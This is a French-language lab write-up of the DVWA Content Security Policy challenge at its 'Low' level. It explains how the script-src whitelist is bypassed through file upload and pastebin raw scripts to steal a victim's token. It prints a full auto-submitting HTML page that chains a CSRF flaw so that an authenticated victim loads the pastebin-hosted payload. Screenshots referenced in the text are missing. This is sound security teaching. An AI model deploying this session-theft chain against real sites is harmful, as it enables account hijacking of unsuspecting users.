

# Niveau "Low"

Le challenge en niveau "Low" nous invite à saisir une URL afin d'exécuter un script externe :



Etant donné que le challenge porte sur CSP, analysons la politique en place :


```text
Content-Security-Policy: script-src 'self' https://pastebin.com example.com code.jquery.com https://ssl.google-analytics.com
```

Ce qui donne pour la directive `script-src` :

* `'self'` : Autorise l'exécution de ressources fournies par la même origine
* `https://pastebin.com` : Autorise l'exécution de ressources hébergées sur _https://pastebin.com_
* `example.com` : Autorise l'exécution de ressources hébergées sur _example.com_
* `code.jquery.com` : Autorise l'exécution de ressources hébergées sur le sous domaine _code.jquery.com_
* `https://ssl.google-analytics.com` : Autorise l'exécution de ressources hébergées sur le sous domaine _ssl.google-analytics.com_

Ma première idée a été d'exploiter la vulnérabilité de file upload trop permissive qui va nous permettre d'uploader sur la plateforme un fichier javascript malicieux. Ce fichier aura donc la même origine que celle de l'application :


Etant donné qu'il est possible d'accéder directement au fichier, nous pouvons soumettre son URL dans le formulaire du challenge CSP :


Cela permet de contourner la source `'self'` du CSP.

Concernant la liste blanche d'URL autorisées, `https://pastbin.com` va nous permettre également l'exécution de script :


Pour l'exploitation, on utilise le mode "raw" afin de soumettre l'URL à DVWA :


Ce qui nous permet de faire exécuter un script contrôlé par nos soins tout en respectant la liste blanche imposée par DVWA :


Il suffit d'adapter notre payload malicieux afin de récupérer le jeton de notre victime :


Reste maintenant à savoir comment s'y prendre pour que notre attaque affecte un autre utilisateur. En effet, la requête n'est pas de type **`GET`** mais de type **`POST`**, ce qui nous empêche de partager facilement un lien forgé à notre victime : 


La solution que j'ai trouvée pour remédier à ce problème est d'utiliser la faille CSRF présente dans cette requête \(aucun mécanisme de protection n'est présent\). Il nous faut donc héberger sur un serveur d'attaque la page malicieuse suivante :

```markup
<html>
  <head>
    <title>Exploitation POST XSS</title>
  </head>

  <body>
    <p>Post reflected XSS !</p>
    <form action="http://192.168.56.203:8080/vulnerabilities/csp/" method="POST" name="postExploitXSS">
      <input type="text" name="include" value="https://pastebin.com/raw/GSVw7nnZ">
      <button type="submit">Envoyer le message</button>
    </form>

    <script>document.forms['postExploitXSS'].submit();</script>
    </body>
</html>
```

Puis de fournir à notre victime le lien permettant d'accéder à notre page, par exemple `http://192.168.56.182/dvwa/post_xss.html` :


La victime, obligatoirement authentifiée, sera redirigée \(ce qui déclenchera l'exécution de notre script\) vers le site du challenge CSP de DVWA et l'attaquant réceptionnera son jeton :


